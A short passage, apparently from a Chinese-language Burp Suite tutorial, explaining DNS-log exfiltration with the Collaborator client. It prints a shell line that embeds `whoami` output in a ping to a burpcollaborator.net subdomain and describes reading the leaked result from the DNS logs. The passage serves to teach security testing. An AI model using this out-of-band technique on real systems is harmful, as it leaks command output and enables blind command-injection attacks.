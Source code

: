 ![1536409490993](/images/1536409490993.png)

下面举个简单的例子，在 Linux shell 中执行如下命令：

```bash
ping `whoami`.p1rf8orun99jx1pa9ayqx55quh07ow.burpcollaborator.net
```

点击 Collaborator client 窗口中的 Poll now 获取 dnslog，如下图，在 log 条目区域显示两条日志，在下面的日志详情中我们看到了从子域名中携带出了`whoami`的执行结果。
